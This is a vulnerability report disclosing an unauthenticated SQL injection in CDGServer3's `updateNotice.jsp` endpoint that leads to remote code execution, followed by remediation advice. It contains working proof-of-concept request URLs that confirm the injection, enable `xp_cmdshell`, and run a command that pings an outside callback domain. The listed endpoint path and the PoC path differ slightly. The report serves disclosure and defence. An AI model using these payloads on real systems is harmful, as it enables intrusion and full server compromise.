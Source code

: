 

![image-20250324103831687](./assets/image-20250324103831687.png)

# Vulnerability Report

## Title: Unauthenticated SQLI Leading to Remote Code Execution (RCE)

### Summary:

A SQL injection vulnerability was discovered in the `updateNotice.jsp` endpoint, specifically in the `id` parameter. This vulnerability allows an unauthenticated attacker to execute arbitrary code on the MSSQL server, potentially gaining full control over the server.

### Affected Endpoint:

`CDGServer3/pubinfo/updateNotice.jsp`

### Vulnerability Type:

RCE

### Vulnerable Code:

```jsp
<%
	String id = RequestUtil.getParameter(request,"id");
	ExaminationPersonInfo  info = new ExaminationPersonInfo();
	ExaminationPersonDao dao = new ExaminationPersonDao();
	Map map = new HashMap();
	map.put("Uniqueid",id);
	info  =(ExaminationPersonInfo) dao.getExaminationPersonList(map).get(0);
%>
```

### Proof of Concept (PoC):

1. Time-based SQL Injection:

   ```
   https://uri/CDGServer3/parameter/updateNotice.jsp?id=1';WAITFOR DELAY '0:0:10'--
   ```

2. Enabling `xp_cmdshell`:

   ```
   https://uri/CDGServer3/parameter/updateNotice.jsp?id=1';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--
   ```

3. Executing arbitrary command:

   ```
   https://uri/CDGServer3/parameter/updateNotice.jsp?id=1';exec master..xp_cmdshell 'ping fewfiews.ipv6.1433.eu.org.'--
   ```

### Impact:

This vulnerability allows an attacker to execute arbitrary commands on the server, which can lead to:

- Complete server compromise.
- Data exfiltration.
- Denial of Service (DoS) by executing resource-intensive commands.
- Potential lateral movement within the internal network.

### Recommendation:

1. **Input Validation and Sanitization:** Ensure that all user inputs are properly sanitized and validated. Use prepared statements with parameterized queries to prevent SQL injection.
2. **Least Privilege Principle:** Ensure the database user has the least privileges necessary for the application to function.
3. **Disable Dangerous Features:** Disable features like `xp_cmdshell` unless absolutely necessary.
4. **Regular Security Audits:** Conduct regular security audits and code reviews to identify and fix vulnerabilities.

### Conclusion:

The RCE in the `updateNotice.jsp` endpoint poses a significant security risk. Immediate remediation steps should be taken to sanitize user inputs and secure the database against unauthorized access and code execution.

### References:

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [Mitigation Techniques](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

